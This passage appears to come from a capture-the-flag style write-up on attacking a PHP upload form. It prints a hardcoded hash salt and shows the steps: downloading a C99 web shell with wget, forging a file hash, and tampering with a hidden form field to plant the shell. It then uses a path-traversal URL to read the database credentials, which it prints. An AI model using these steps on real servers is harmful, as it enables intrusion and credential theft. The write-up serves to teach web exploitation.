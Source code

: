     // Get file extension from source image
    $extension = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

    // Verify file is of an acceptable type
    if (in_array($extension, $allowedExtensions)) {

        // Super duper, top secret hashing algorithm
        $data['file_hash'] = $this->hashFile($fileName);

    } else {

        // Return false on failure
        $data['file_hash'] = false;

    }

And viewing the referenced hashFile() function we see the following:

    private function hashFile($fileName) {

        // Super duper, top secret hashing algorithm
        return sha1($fileName . 'ErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd');

    }

That's a bingo! We now have the method of file hashing along with the secret
string that gets concatenated with the file name.  With this information we can
actively exploit the file upload form and generate a valid hash for any file we
choose.

### Shelling the Server

It's now time to grab a fresh copy of [C99](http://www.r57shell.net/) (I also
recommend [Weevely](http://epinna.github.io/Weevely/) but for this example we'll
stick to the more simple C99 shell) and generate a valid hash for uploading:

    $ wget http://www.r57shell.net/shell/c99.txt
    $ mv c99.txt not_a_shell.php
    $ echo -n "not_a_shell.phpErrrMahGerrds_Sup3rS3cr3t_P@ssw0rd" | sha1sum

This gives us:

    90d5aeb035bbcd0df8f5e84721d3eb8f3321ff8c

Now we can go back to the upload form, select our `c99.php` file, then using
Firebug or the browsers built-in web developer tools modify the value of the
hidden `file_hash` element and set it to our pre-generated hash.  This time,
when we submit the form, the file upload succeeds without error.  Navigating to
`/uploads/not_a_shell.php` now brings up our shell.

From here accessing any aspect of the web application or it's database are
trivial.  Let's investigate the database now.  First, nab the credentials by
navigating to `/images/media?file=....//....//Config/database.php`:

    public $default = array(
        'datasource' => 'Database/Mysql',
        'persistent' => false,
        'host'       => 'localhost',
        'login'      => 'spookileaks',
        'password'   => 'rmPtShWVyrCcxfJaBvsPL4t2',
        'database'   => 'spookileaks',
        'prefix'     => '',
        //'encoding' => 'utf8',
    );
